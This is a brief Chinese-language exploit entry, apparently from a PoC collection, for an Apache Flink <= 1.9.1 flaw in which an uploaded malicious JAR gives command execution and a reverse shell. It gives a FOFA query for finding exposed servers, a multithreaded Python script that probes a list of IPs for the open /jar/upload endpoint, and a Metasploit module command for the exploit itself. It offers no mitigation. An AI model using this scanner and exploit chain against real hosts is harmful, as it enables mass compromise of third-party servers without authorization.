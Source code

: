 ## 漏洞概述
Apache Flink 1.9.x 恶意JAR包上传，导致任意命令执行，反弹shell

## 影响范围
```http
版本：<= 1.9.1
FOFA: app="APACHE-Flink"
```

## POC
```python
import os
import subprocess
import requests
from multiprocessing.dummy import Pool as ThreadPool

def get_iplist():
    iplist = []
    with open('iplist', 'r') as file:
        data = file.readlines()
        for item in data:
            ip = item.strip()
            iplist.append(ip)
    return iplist


def poc(ip):
    url = 'http://' + ip + ':8081/jar/upload'

    try:
        res = requests.get(url=url, timeout=2)
        data = {
            'msg': res.json(),
            'state': 1,
            'url': url,
            'ip': ip
        }

    except:
        data = {
            'msg': 'Secure',
            'state': 0,
            'ip': ip
        }

    if data['state'] == 1:
        print(data)


if __name__ == '__main__':
    iplist = get_iplist()

    pool = ThreadPool(50)
    pool.map(poc, iplist)
```

## EXP

```bash
use exploit/multi/http/apache_flink_jar_upload_exec
```

## 参考链接

https://www.exploit-db.com/exploits/48978